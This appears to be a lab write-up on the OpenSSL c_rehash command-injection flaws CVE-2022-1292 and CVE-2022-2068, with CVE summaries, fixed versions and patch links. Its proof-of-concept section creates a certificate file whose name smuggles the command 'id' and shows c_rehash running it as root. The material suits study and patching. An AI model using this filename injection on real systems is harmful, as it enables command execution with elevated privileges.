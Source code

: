 # What is OpenSSL?
The OpenSSL software is a robust, commercial-grade, full-featured toolkit for general-purpose cryptography and secure communication. It is licensed under an Apache-style license. Reference: https://www.openssl.org/


# What is CVE-2022-1292?
The c_rehash script does not properly sanitize shell metacharacters to prevent command injection. This script is distributed by some operating systems in a manner where it is automatically executed. On such operating systems, an attacker could execute arbitrary commands with the privileges of the script. Use of the c_rehash script is considered obsolete and should be replaced by the OpenSSL rehash command line tool. It was reported by Elison Niven (Sophos). 
Reference: https://www.cve.org/CVERecord?id=CVE-2022-1292 and URL: https://www.openssl.org/news/vulnerabilities.html

# CVE-2022-2068:
In addition to the c_rehash shell command injection identified in CVE-2022-1292, further circumstances where the c_rehash script does not properly sanitize shell metacharacters to prevent command injection were found by code review. When the CVE-2022-1292 was fixed it was not discovered that there are other places in the script where the file names of certificates being hashed were possibly passed to a command executed through the shell. This script is distributed by some operating systems in a manner where it is automatically executed. On such operating systems, an attacker could execute arbitrary commands with the privileges of the script. Use of the c_rehash script is considered obsolete and should be replaced by the OpenSSL rehash command line tool. Reported by Chancen (Qingteng 73lab).
Fixed in OpenSSL 3.0.4 (Affected 3.0.0,3.0.1,3.0.2,3.0.3)
Fixed in OpenSSL 1.1.1p (Affected 1.1.1-1.1.1o)
Fixed in OpenSSL 1.0.2zf (Affected 1.0.2-1.0.2ze)


# PoC CVE-2022-1292 
#https://github.com/alcaparra/CVE-2022-1292

```
Command injection ocurrs because filenames are not properly sanitized:

$fname =~ s/'/'\\''/g;
my ($hash, $fprint) = `"$openssl" crl $crlhash -fingerprint -noout -in '$fname'`;
This part of the script is vulnerable, as closing the backticks allows for command execution, for example a file named: MyCert.crt`whoami` will run "whoami".
```

# Commands

```
root@INE:/etc/ssl/certs# openssl version
OpenSSL 1.1.1f  31 Mar 2020

root@INE:/etc/ssl/certs# ls -rtl /usr/local/bin/c_rehash
-rwxr-xr-x 1 root root 6176 Sep 21  2022 /usr/local/bin/c_rehash
root@INE:/etc/ssl/certs# 

#
cd /etc/ssl/certs/
echo "-----BEGIN CERTIFICATE-----" > "hey.crt\`id\`"

root@INE:/etc/ssl/certs# ls -al hey.crt\`id\`
-rw-r--r-- 1 root root 28 Dec 28 21:44 'hey.crt`id`'
root@INE:/etc/ssl/certs# c_rehash .
Doing .
WARNING: Skipping duplicate certificate ca-certificates.crt
Can't open hey.crtuid=0(root) gid=0(root) groups=0(root) for reading, No such file or directory
140121747203392:error:02001002:system library:fopen:No such file or directory:crypto/bio/bss_file.c:69:fopen('hey.crtuid=0(root) gid=0(root) groups=0(root)','r')
140121747203392:error:2006D080:BIO routines:BIO_new_file:no such file:crypto/bio/bss_file.c:76:
unable to load certificate
```


Objective: Leverage the improper sanitization of the shell metacharacters to exploit the command injection vulnerability.

```
root@INE:/etc/ssl/certs# grep crlhash /usr/local/bin/c_rehash
my $crlhash = "-hash";
            $crlhash = "-hash_old";
                my ($hash, $fprint) = `"$openssl" crl $crlhash -fingerprint -noout -in '$fname'`;
root@INE:/etc/ssl/certs# 
```

https://www.cvedetails.com/cve/CVE-2022-1292/
https://www.debian.org/security/2022/dsa-5139
https://lists.debian.org/debian-lts-announce/2022/05/msg00019.html
https://git.openssl.org/gitweb/?p=openssl.git;a=commitdiff;h=1ad73b4d27bd8c1b369a3cd453681d3a4f1bb9b2
https://git.openssl.org/gitweb/?p=openssl.git;a=commitdiff;h=e5fd1728ef4c7a5bf7c7a7163ca60370460a6e23
https://www.openssl.org/news/secadv/20220503.txt